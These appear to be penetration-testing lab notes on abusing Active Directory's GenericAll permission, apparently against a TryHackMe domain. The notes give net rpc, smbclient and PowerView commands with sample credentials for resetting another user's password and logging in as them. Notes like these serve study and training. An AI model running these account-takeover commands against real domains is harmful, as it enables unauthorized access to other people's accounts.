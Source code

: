# GenericAll

The **GenericAll** permission is one of the most dangerous permissions, granting full control over an object. This includes resetting passwords, modifying attributes, and changing group memberships.

Reset password:

{% code overflow="wrap" %}
```sh
net rpc password "SHAWNA_BRAY" "newP@ssword2022" -U "thm.corp"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.224.165" 
```
{% endcode %}

Verify creds:

{% code overflow="wrap" %}
```sh
smbclient //10.10.224.165/Data -U 'thm.corp/SHAWNA_BRAY%newP@ssword2022'
```
{% endcode %}



To abuse this permission with PowerView's Set-DomainUserPassword, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller asCRUZ\_HALL@THM.CORP if you are not running a process as that user. To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force\
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

Then create a secure string object for the password you want to set on the target user:

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already running a process as CRUZ\_HALL@THM.CORP:

Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred
